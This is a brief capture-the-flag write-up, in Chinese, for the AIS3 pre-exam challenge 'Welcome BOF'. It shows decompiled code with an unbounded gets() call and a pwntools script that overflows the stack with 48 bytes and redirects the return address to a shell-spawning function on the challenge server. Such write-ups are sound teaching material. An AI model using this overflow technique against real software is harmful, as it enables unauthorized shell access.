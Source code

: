 ### Welcome BOF
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-30h]
  init(*(_QWORD *)&argc, argv, envp);
  puts(&s);
  gets(&v4);
  return 0;
}
```
- gets的地方沒有限制輸入字數 很明顯有bof漏洞可以蓋到ret adr 而且沒有canary, nx之類的防護開啟
- 很直覺的開gdb看padding 最後結果是48個 之後把ret adr蓋成內建會開shell的func
```
from pwn import *
conn = remote("pre-exam-pwn.ais3.org", "10000")
conn.recvuntil(".\n")
payload = b"A" * 48 + p64(0x400687)
conn.sendline(payload)
conn.interactive()
```